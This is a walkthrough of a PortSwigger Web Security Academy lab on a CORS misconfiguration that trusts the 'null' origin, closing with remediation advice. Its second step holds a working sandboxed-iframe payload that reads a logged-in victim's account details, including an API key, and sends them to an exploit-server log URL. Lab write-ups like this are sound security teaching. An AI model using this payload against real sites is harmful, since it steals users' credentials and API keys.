






# Cross-Origin Resource Sharing (CORS)
**Lab: CORS vulnerability with trusted null origin (Web Security Academy)**

**Level: Apprentice**

---

## Vulnerability Overview

This lab exploits a CORS misconfiguration that explicitly trusts the `null` origin - a value that appears in the `Origin` header for requests made from sandboxed iframes, local HTML files, `data:` URIs, and certain redirects. The developer likely added `null` to the allowlist for testing or development purposes and left it in production.

An attacker can force a cross-origin request to appear with `Origin: null` by running their exploit inside a sandboxed iframe. The `null` origin is treated as trusted by the server, so the response is readable by the attacker's script - even though it comes from a completely different site.

---

## Steps to Solve the Lab

1. **Understand the target**
   - `GET /accountDetails` returns the authenticated user's `apikey` when called with valid credentials.
   - The server sends `Access-Control-Allow-Origin: null` when `Origin: null` is received.

     

2. **Build the exploit using a sandboxed iframe**
   - On the exploit server, open **Craft a response** (the Body starts out as the default "Hello, world!" placeholder).

     

   - Set the **Body** to:
     ```html
     <iframe sandbox="allow-scripts allow-top-navigation allow-forms"
             srcdoc="
       <script>
         var req = new XMLHttpRequest();
         req.onload = function() {
           location = 'https://<exploit-id>.exploit-server.net/log?key='
                      + encodeURIComponent(this.responseText);
         };
         req.open('GET',
           'https://<lab-id>.web-security-academy.net/accountDetails',
           true);
         req.withCredentials = true;
         req.send();
       </script>
     "></iframe>
     ```
   - Content inside a `srcdoc` sandboxed iframe sends requests with `Origin: null`.

     

3. **Store and deliver**
   - Click **Store**, then **Deliver exploit to victim**.

4. **Read the API key from logs**
   - Open the exploit server **Access log**.
   - Find `/log?key={"username":"administrator",...,"apikey":"..."}` and copy the key.

     

5. **Submit the solution**
   - Paste the copied `apikey` value into the lab's **Submit solution** dialog and click **OK**.

     

6. **Result**
   - The lab banner changes to **"Congratulations, you solved the lab!"**.

     

---

## Why This Works

When a script runs inside a sandboxed `srcdoc` iframe, the browser sets `Origin: null` on any cross-origin requests it makes. The server sees `null` in the allowlist and responds with:

```
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

The browser accepts this as a valid CORS grant and allows the script to read the response. The attacker's iframe effectively impersonates a "null origin" which the server trusts.

---

## Remediation

- **Never include `null` in the CORS origin allowlist** - `null` is not a real origin and has no meaningful trust boundary. Remove it from any production configuration.
- **Use an explicit, static allowlist** of known legitimate origins (e.g., `https://app.example.com`).
- **Audit CORS configurations for `null`, wildcards, and regex patterns** - these are common sources of overly permissive CORS policies.
- **Remove CORS debugging configs before deploying** - `null` origins are often added during local development and forgotten.

---

Link: https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack
